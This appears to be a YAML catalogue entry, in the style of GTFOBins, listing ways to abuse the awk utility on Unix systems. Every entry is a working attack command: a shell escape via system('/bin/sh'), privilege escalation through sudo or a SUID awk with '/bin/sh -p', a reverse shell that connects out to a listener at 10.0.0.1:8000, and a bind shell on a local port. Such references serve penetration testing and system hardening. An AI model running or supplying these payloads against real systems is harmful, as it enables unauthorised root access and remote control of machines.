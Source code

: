 ```yaml
---
functions:
  exec-interactive:
    - code: awk 'BEGIN {system("/bin/sh")}'
  sudo-enabled:
    - code: sudo awk 'BEGIN {system("/bin/sh -p")}'
  suid-limited:
    - code: ./awk 'BEGIN {system("/bin/sh -p")}'
  reverse-shell:
    - description: Run `nc -l -p 8000` to receive the shell on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  bind-shell:
    - description: Run `nc 10.0.0.1 8000` to connect to the shell on the other end.
      code: |
        LPORT=8000
        awk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
---
```

